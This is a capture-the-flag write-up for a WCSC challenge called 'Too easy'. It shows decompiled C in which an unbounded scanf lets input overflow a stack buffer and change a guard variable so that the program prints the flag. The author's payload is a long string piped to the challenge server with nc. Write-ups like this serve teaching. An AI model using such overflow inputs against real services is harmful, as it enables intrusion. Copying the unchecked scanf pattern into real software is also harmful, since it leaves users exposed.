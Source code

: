 ---
## 200 Too easy WCSC

This one as the name suggests, was incredibly easy and honestly probably worth too many points, but here's a writeup regardless.


So we are given a binary tooEasy and was told that 
| Challenge by: nullp0inter
| This one is almost too easy, get the flag!
| nc wcscctf.org 8383

Opening up the binary in ida we see two functions of note, `main` and `det`, generated c code at the bottom of this post.

In main buffer is allocated to **0x424** (or (1060)<sup>10</sup> in decimal)

The variable (not originally named this) called `overWriteThisSheet` is allocated right after buffer. 
`overWriteThisSheet = 56797;` happens in `main`. 

Now looking at `det` we see that `verWriteThisShit` is passed to the function and has a simple check to see if it is the originally set value, **56797**. 

So even though the python script to run this like a normal exploit, it would be easier to just use `python -c '"a"*1070' ` and pipe the output to `nc wcscctf.org 8383`

```language-c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buffer; // [sp+4h] [bp-424h]
  int overWriteThisSheet; // [sp+41Ch] [bp-Ch]

  overWriteThisSheet = 56797;
  __isoc99_scanf("%s", &buffer);
  det(overWriteThisSheet);
  return 1;
}
```

```language-c
void __cdecl det(int overWriteThisSheet)
{
  char buf; // [sp+Ch] [bp-8Ch]@2
  int fd; // [sp+8Ch] [bp-Ch]@2

  if ( overWriteThisSheet != 56797 )
  {
    puts("GZ, you win!");
    fd = open("./flag.txt", 0);
    read(fd, &buf, 0x80u);
    printf("%s", &buf);
    exit(0);
  }
}
```
